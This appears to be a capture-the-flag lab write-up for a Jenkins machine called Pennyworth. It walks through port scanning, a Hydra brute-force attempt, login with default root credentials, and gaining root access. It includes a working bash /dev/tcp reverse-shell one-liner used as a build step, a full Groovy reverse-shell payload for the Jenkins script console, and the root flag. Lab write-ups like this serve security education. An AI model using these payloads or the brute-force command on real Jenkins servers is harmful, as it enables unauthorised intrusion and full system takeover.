 # MACHINE - PENNYWORTH

IP: 10.129.242.203

Type: Linux

---

## OPEN PORTS

```
$ nmap -sVC -T4 -Pn -p- {IP}
```

[1] 8080/tcp HTTP **Jetty 9.4.39.v20210325** (25/03/2021)

- `http-robots.txt` disallowed entry

> *Jetty* is a Java web server and Java Servlet container. While web servers are
> usually associated with serving documents to people, Jetty is now often used for
> machine to machine communications, usually within larger software frameworks. 

> *Jakarta Servlet*, formely *Java Servlet* is a Java software component that extends
> the capabilities of a server. Although servlets can respond to many types of requests
> they most commonly implemet web containers for hosting web applications on web
> servers and thus qualify as a server-side servlet web API. 

---

## OPEN THE SITE

- The 'home page' of the site is the Jenkins login page

```
http://{IP}:8080/login?from=%2F
```

- `%2F` is the URL encoded value for the `/` symbol

> *Jenkins* is an open source CI/CD (Continuous Integration/Continuous Deployment)
> server written in Java. It is a multiplatform tool, in fact it includes packages for
> Linux, Mac OS and Windows. 

- Looking at the Source code of the page.
- It is quite a caos. We can use a beautifier to make it readable.
- There is nothing too much strange here ... 
- Looking at the cookies ... There is one

```
JSESSIONID.10959053=node0nraybqg1q9qwyn3sn19dz2jk0.node0
```

---

## LOGIN BRUTEFORCE

- Tried to login with admin:admin. This is the request that is done

![Login-Post-Request](./Images/login-post-request.png)

- Obviously the login failed ...
- We can try to use Hydra to bruteforce it

```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 -t 4 \
	{IP} http-form-post "/j_spring_security_check:j_username=^USER^"\
	"&j_password=^PASS^&from=%2F&Submit=Sign+in&remember_me=on"\
	":H=Cookie\: JSESSIONID.b945217e=node01m7fv5t9913qk1wte6c07ab7hl0.node0" \
	":H=Referer\: http\://10.129.242.228\:8080/login?from=%2F" \
	":H=Origin\: http\://10.129.242.228\:8080/"
	":F=Invalid username or password"
```

- We obtain no result ... Hydra failed
- However, there are a bunch of default username and passwords that we can try
- The combination `root`:`password` worked and we are now on the Jenkins admin page

JENKINS VERSION: 2.289.1

JENKINS SCRIPTING LANGUAGE: *Groovy*

> *Groovy* is a powerful, optionally typed and dynamic language, with syntax-typing and static compilation
> capabilities, for the Java platform aimed at improving developer productivity thanks to a concise, 
> familiar and easy to learn syntax.

- Now, we can run a directory enumeration to see what we can access

```
$ gobuster dir -u http://{IP}:8080/ \
	-w /usr/share/wordlists/dirb/common.txt \
	-c "JSESSIONID.10959053=node0nraybqg1q9qwyn3sn19dz2jk0.node0"
```

- We can see that there is a `script` page

---

## RUNNING REVERSE SHELL

- There are two possible ways

1. Using the building features to run a classical bash reverse shell
2. Using the scripting panel

### RUNNING USING BUILD FEATURE

- Click on the *Groovy Script* Item
- Then `Configure > Source Code Management > Build > Add Build Step > Execute Shell`
- Paste the command

```
/bin/bash -c 'exec bash -i &> /dev/tcp/{MyIP}/{remote-port} <&1'
```

- Save the changes

- Then on your local machine start a netcat listener

```
$ nc -lvnp {remote-port}
```

- Return to the Jenkins page and click on `Build Now`.
- The reverse shell is up, we are root and the flag is in `root/flag.txt`

### RUNNING USING GROOVY SCRIPT

- Go to `http://{IP}:8080/script`
- This is the payload we need to use

```
String host="{MyIP}";
int port={remote-port};
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- Start the usual netcat listener

```
$ nc -lvnp {remote-port}
```

- Launch the script
- The reverse shell is up, we are root and the flag is in `root/flag.txt`

---

## FLAGS

ROOT: 9cdfb439c7876e703e307864c9167a15
